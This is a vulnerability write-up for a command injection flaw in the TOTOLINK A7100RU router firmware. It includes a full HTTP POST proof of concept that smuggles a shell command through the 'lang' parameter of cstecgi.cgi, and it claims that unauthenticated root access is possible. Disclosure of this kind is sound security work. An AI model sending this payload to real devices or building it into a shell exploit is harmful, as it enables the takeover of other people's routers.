


# TOTOlink A7100RU(V7.4cu.2313_B20191024)Command injection vulnerability

## Overview

Manufacturer's website information：http://totolink.net/

Firmware download address ：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1. Affected version

 

 

 

Figure 1 shows the latest firmware Ba of the router

## 2.Vulnerability details



The program passes the content under the lang parameter to v2, then formats v2 into the v6 stack through the snprintf function, and finally executes the content in v6 through the cstesystem function, which has a command injection vulnerability

## POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V7.4cu.2313_B20191024

2. Attack with the following POC attacks

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWanCfg",
"lang":"1$(ls>/tmp/123;)"}
```

The results of the reproduction are as follows 

 

Figure 2 POC attack effect

Finally, you can write exp, which can obtain a stable root shell without authorization

 

 

 

